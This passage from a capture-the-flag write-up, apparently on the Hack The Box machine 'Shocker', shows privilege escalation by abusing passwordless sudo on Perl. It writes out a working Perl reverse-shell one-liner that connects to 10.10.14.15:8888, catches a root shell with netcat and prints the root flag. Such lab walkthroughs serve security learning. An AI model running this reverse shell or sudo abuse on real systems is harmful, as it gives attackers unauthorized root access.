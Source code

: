 ### Privilege Escalation

We will try to escalate privilege , lets check the sudo -l .

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

This means we can run /usr/bin/perl with sudo privileges without providing password (as NOPASSWD).

Let us search for reverse-shell using Perl [PentestMonkey](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell) and also spin another Netcat Listner on different port.

```
perl -e 'use Socket;$i="10.10.14.15";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Since we are allowed to run perl as sudo, let us use sudo .

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.14.15";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
<n(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 37834
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

![Root Shell](~/assets/images/htb-shocker-root.png)

We can see in the screenshot, we have got root shell (#).
Let us get the root flag.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 37834
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e9e371fd072ccff301a9492019421341
# 
```
